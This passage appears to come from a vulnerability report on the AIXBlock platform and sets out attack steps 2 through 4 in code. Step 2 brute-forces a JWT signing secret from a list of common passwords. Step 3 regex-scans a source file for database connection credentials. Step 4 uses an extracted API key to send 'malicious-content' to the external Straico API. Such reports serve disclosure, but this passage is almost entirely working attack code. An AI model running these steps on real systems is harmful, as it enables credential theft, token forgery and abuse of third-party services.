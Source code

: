 ### Step 2: JWT Secret Extraction
```javascript
// Extract JWT configuration
const jwtConfig = {
    keyId: '1',  // From jwt-utils.ts
    issuer: 'aixblock',  // From jwt-utils.ts
    algorithm: 'HS256'
};

// Attempt to brute force JWT secret
const commonSecrets = [
    'secret', 'aixblock', 'password', '123456',
    'jwt-secret', 'aixblock-secret', 'production-secret'
];

for (const secret of commonSecrets) {
    try {
        const decoded = jwt.verify(maliciousToken, secret);
        console.log('JWT secret found:', secret);
        break;
    } catch (error) {
        // Continue trying
    }
}
```

### Step 3: Database Credential Extraction
```python
# Extract database connection information
import re

# Search for database connection strings
db_patterns = [
    r'postgresql://([^:]+):([^@]+)@([^:]+):(\d+)/(.+)',
    r'mysql://([^:]+):([^@]+)@([^:]+):(\d+)/(.+)',
    r'mongodb://([^:]+):([^@]+)@([^:]+):(\d+)/(.+)'
]

with open('database-connection.ts', 'r') as f:
    content = f.read()
    
for pattern in db_patterns:
    matches = re.findall(pattern, content)
    if matches:
        print(f'Database credentials found: {matches}')
```

### Step 4: External Service Abuse
```javascript
// Use extracted API keys to access external services
const extractedApiKey = 'found-api-key';

// Access Straico API
fetch('https://api.straico.com/v0/file/upload', {
    method: 'POST',
    headers: {
        'Authorization': `Bearer ${extractedApiKey}`,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        file: 'malicious-content'
    })
});
```
